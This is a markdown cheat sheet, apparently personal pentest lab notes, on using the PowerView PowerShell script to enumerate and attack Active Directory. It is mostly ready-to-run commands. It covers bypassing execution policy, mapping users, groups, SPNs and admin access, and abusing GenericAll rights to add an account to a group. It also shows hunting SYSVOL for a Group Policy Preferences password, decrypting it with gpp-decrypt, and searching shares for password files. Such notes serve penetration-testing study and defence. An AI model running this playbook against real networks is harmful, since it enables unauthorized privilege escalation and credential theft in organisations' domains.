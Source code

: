# Using PowerView
`PowerView.ps1` is a powerful PowerShell script included in the PowerSploit framework, designed for Active Directory enumeration and exploitation. Below is an overview of commonly used commands and examples for `PowerView.ps1`.
**Importing PowerView**
```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```
## Enumerating Domain Information
**Get-NetDomain**
```powershell
Get-NetDomain
```
**Get-NetForest**
```powershell
Get-NetForest
```
**Get-NetDomainController**
```powershell
Get-NetDomainController
```
**Get-NetUser**
List **all users** in the domain:
```powershell
Get-NetUser
```
- **To filter by a specific user:**
```powershell
Get-NetUser | Where-Object { $_.SamAccountName -eq "gamal" }
```
- **Querying users using select statement**
``` powershell
Get-NetUser | select cn
```
- **Querying users displaying pwdlastset and lastlogon**
``` powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
- Example 
``` powershell
Get-DomainUser -Identity gamal -Domain domain.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```
**Get-NetGroup**
**Retrieve all groups in the domain**
```powershell
Get-NetGroup
```
- **Find users in a specific group**
```powershell
Get-NetGroup | Where-Object { $_.Name -eq "Development Department" }
```
- **Enumerate a specific group member**
``` powershell
Get-NetGroup "Management Department" | select member
```
- **Recursive Group Membership**
``` powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
- **enumerate domain trust mappings**
``` powershell
Get-DomainTrustMapping
```
- We can use the [Test-AdminAccess](https://powersploit.readthedocs.io/en/latest/Recon/Test-AdminAccess/) function to test for local admin access on either the current machine or a remote one.
- test if a user has administrative access to a local or remote host
``` powershell
Test-AdminAccess -ComputerName Comp-EA-MS01
```
## Enumerating Computers
**List all computers in the domain:**
```powershell
Get-NetComputer
```
**Displaying OS and hostname**
``` powershell
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
**Filter by operating system:**
```powershell
Get-NetComputer -OperatingSystem "Windows Server*"
```
**Find-LocalAdminAccess**
- Scans the network in an attempt to determine if our current user has **administrative permissions** on any computers in the domain.:
```powershell
Find-LocalAdminAccess
```
## Enumeration Through Service Principal Names
- **Listing the SPN accounts in the domain**
``` powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
- To enumerate SPNs in the domain, we have multiple options. In this case, we'll use setspn.exe, which is installed on Windows by default. We'll use -L to run against both servers and clients in the domain. 
- **Finding Users With SPN Set**
``` powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

**Listing SPN linked to a certain user account** 
``` powershell
setspn -L iis_service
```
![image](https://github.com/user-attachments/assets/368e7933-3e93-441f-83aa-7d03c8b7dba0)
## Enumerating **Object Permissions**
Here's a list of the most interesting
**GenericAll**: Full permissions on object
**GenericWrite**: Edit certain attributes on the object
**WriteOwner**: Change ownership of the object
**WriteDACL**: Edit ACE's applied to object
**AllExtendedRights**: Change password, reset password, etc.
**ForceChangePassword**: Password change for object
**Self (Self-Membership)**: Add ourselves to for example a group
The [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-and-access-masks) lists other permissions and describes each in more detail.
#### Enumerate ACEs with PowerView
``` powershell
Get-ObjectAcl -Identity stephanie
```
we are primarily interested in those **highlighted**
![Pasted image 20241224120822](https://github.com/user-attachments/assets/6560a072-a667-4657-ba20-fd4545f3eba2)

``` powershell
Get-ObjectAcl -Identity UserName | select ObjectSID,ActiveDirectoryRights,SecurityIdentifier
```
The output lists two [_Security Identifiers_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers) (SID), unique values that represent an object in AD.
#### Converting the ObjectISD into name
``` powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
#### Enumerate all objects the domain
generate clean and manageable output
``` powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Converting all SIDs that have GenericAll permission on the Management Group
``` powershell
"SID01","SID02","SID03","SID04" | Convert-SidToName
```
Using "net.exe" to add ourselves to domain group if you got ACL permisson
``` powershell
net group "Management Department" stephanie /add /domain
```
## Domain Share Query List shared folders across the network:
``` powershell
Find-DomainShare
```
Or we can use
```powershell
Invoke-ShareFinder
```

![Pasted image 20241224143305](https://github.com/user-attachments/assets/ed627a2b-3b84-4077-b473-e9b5a3b0d783)

 [**SYSVOL**](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx), as it may include files and folders that reside on the domain controller itself.
 ``` powershell
 ls \\dc1.corp.com\sysvol\corp.com\
```
- Investigate every folder
``` powershell
ls \\dc1.corp.com\sysvol\corp.com\Policies\
```
![Pasted image 20241224143757](https://github.com/user-attachments/assets/54a58560-494d-46c8-9ad3-843e0ae00bd4)

Checking contents of old-policy-backup.xml file
``` powershell
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
![Pasted image 20241224144802](https://github.com/user-attachments/assets/24c1ee97-4bbc-4ad6-98b9-9490a1bf1b68)

XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.
system administrators often changed local workstation passwords through [_Group Policy Preferences_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11)) (GPP).
However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on [_MSDN_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [**gpp-decrypt**](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:
``` bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
## **Invoke-FileFinder**

Search for specific files across shared folders:

```powershell
Invoke-FileFinder -Include "passwords*.txt"
```
## **Get-NetGPO**

Retrieve all GPOs in the domain:

```powershell
Get-NetGPO
```

## **Get-NetGPOGroup**

Find GPOs linked to specific groups:

```powershell
Get-NetGPOGroup
```
## **Get-NetSession**

List active sessions on domain computers:

```powershell
Get-NetSession
```

## **Get-NetLoggedon**

Find users currently logged on to domain computers:

```powershell
Get-NetLoggedon
```


